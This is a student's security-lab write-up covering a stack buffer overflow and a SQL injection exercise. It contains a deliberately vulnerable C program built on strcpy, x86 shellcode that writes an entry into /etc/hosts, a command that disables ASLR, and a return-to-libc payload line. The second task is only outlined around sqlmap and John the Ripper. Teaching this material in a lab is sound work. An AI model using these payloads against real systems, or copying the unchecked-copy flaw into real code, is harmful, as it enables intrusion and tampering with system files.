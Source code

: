 # Lab #1,22110044,Nguyen Nguyen Toan Khoa, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
 Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:
Description text (optional)
For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy
![alt text](image-38.png)
Then i will compile C asm program and C program to executable code
![alt text](image-37.png)
I will use an older bash and turn off randomly given stack value.
`sudo sysctl -w kernel.randomize_va_space=0`
![alt text](image-39.png)
The stack frame of main function
![alt text](image-32.png)
The pwd of the copy_file: 
![alt text](image-40.png)
Create a global environment varibale using `export my_path="/home/seed/seclabs/copy_file"`
Then i will set root for user to write:
![alt text](image-50.png)
I will find the address of system and exit and that string of varibale:
![alt text](image-41.png)
Address value of system: 0xf7e50db0 will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: 0xf7e449e0 will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env: 0xffffd94c will be inserted with format \x4c\xd9\xff\xff

So the command will be:
`r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x4c\xd9\xff\xff')")`
Before i run this command:
![alt text](image-51.png)
And the output when i run this command: 

![alt text](image-49.png)



# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
  ![alt text](image-42.png)
- Install sqlmap.
  ![alt text](image-43.png)
  ![alt text](image-45.png)
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  ![alt text](image-46.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
![alt text](image-47.png)
![alt text](image-48.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





